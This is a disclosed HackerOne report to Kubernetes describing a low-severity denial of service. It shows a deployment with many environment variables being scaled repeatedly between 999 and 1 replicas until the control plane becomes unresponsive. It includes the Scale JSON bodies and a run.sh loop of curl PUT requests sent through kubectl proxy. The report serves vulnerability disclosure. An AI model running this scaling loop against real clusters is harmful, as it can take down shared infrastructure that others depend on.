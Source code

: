 # "Self" DOS with large deployment and scaling

## Report Details
- **Report ID**: 831654
- **URL**: https://hackerone.com/reports/831654
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-03-25T21:39:21.174Z
- **Disclosed**: 2020-07-23T21:42:53.392Z

## Reporter
- **Username**: wiardvanrij
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:
Good day! 
I was just messing around with some functions and trying to see what the impact was on my cluster. I found out that it took quite some resources to process a larger deployment, especially when scaling it. 
When I check your security release process I noticed that it did include "Authenticated User" - DOS (https://github.com/kubernetes/security/blob/master/security-release-process.md#denial-of-service) so I figured I should just make a report of this.

The summary is: 

When you define a deployment that contains loads of env variables, we can easily increase the size of what is being processed. When we start to scale & downscale this deployment, we get a massive increase in the API/ETCD memory & CPU usage. 

In my case, I literally ruined my cluster that consists of 3 master nodes (4 vCPUs, 15 GB memory each)

## Kubernetes Version:
1.15.10

## Component Version:

## Steps To Reproduce:

Short story:

  1. Create a deployment that is near to the max chars allowed with env vars.
  1. Scale it to N-number of nodes where N could be "whatever" - I've tested it with 99 nodes and 999, both seem to be increasing cluster usage
  1. Scale it back down to 1
  1. Repeat for a while.

Long story:

1  Create a deployment

Please check out my example deployment file here: https://gist.github.com/wiardvanrij/21e516993603282e174da399002d95a3
As it is really huge.
It is good to note that I just used a random image and defined really low cpu/mem limits in order to allow many pods to get created without hitting some cluster/node limit

 2   Save this as `scale.json`

```
{
    "kind": "Scale",
    "apiVersion": "autoscaling/v1",
    "metadata": {
      "name": "nginx",
      "namespace": "default"
    },
    "spec": {
      "replicas": 999
    }
}  
```

3  And save this as `scaledown.json`

```
{
    "kind": "Scale",
    "apiVersion": "autoscaling/v1",
    "metadata": {
      "name": "nginx",
      "namespace": "default"
    },
    "spec": {
      "replicas": 1
    }
}  
```
4 create a `run.sh`

```
curl -X PUT 127.0.0.1:8001/apis/apps/v1/namespaces/default/deployments/nginx/scale -H "Content-Type: application/json" -d @scale.json
curl -X PUT 127.0.0.1:8001/apis/apps/v1/namespaces/default/deployments/nginx/scale -H "Content-Type: application/json" -d @scaledown.json
curl -X PUT 127.0.0.1:8001/apis/apps/v1/namespaces/default/deployments/nginx/scale -H "Content-Type: application/json" -d @scale.json
curl -X PUT 127.0.0.1:8001/apis/apps/v1/namespaces/default/deployments/nginx/scale -H "Content-Type: application/json" -d @scaledown.json
curl -X PUT 127.0.0.1:8001/apis/apps/v1/namespaces/default/deployments/nginx/scale -H "Content-Type: application/json" -d @scale.json
curl -X PUT 127.0.0.1:8001/apis/apps/v1/namespaces/default/deployments/nginx/scale -H "Content-Type: application/json" -d @scaledown.json
... repeat above for a bunch of times (50x or so).
```

5 I've used kube proxy for easy access

run `kubectl proxy` to make a proxy to your cluster

6 run the run.sh file
`./run.sh`  and optionally you could run this multiple times for some "concurrency" 

7 What you could see

Massive usage in CPU power on the master nodes AND memory usage on for certain the API part of k8s, perhaps the nodes too, but I lost control of everything to see exactly what went down.
Eventually, you should not able to contact your cluster anymore and the nodes remain unresponsive/heavy throttled. 

## Notes

This feels really "basic" as for a DOS, though I really wanted to point something out.
I was actually learning deeper internals of k8s and I just made this "work" when I saw some spikes in my metrics. Therefore I wanted to make the note that:
- I actually made my cluster completely useless with this, but I'm uncertain if the ENV vars and/or the scaling are the sole reason.
- I've got no idea what is really happening, because even when I stopped my "script" - the entire cluster was still unresponsive.
- I've first tested this locally with KIND, and used KOPS to set up a "production like" cluster, and even with 3 somewhat decent master nodes, it was gone in minutes.


## Supporting Material/References:
Deployment file:
https://gist.github.com/wiardvanrij/21e516993603282e174da399002d95a3

## Impact

DOS on the entire k8s cluster.

## Attachments
No attachments
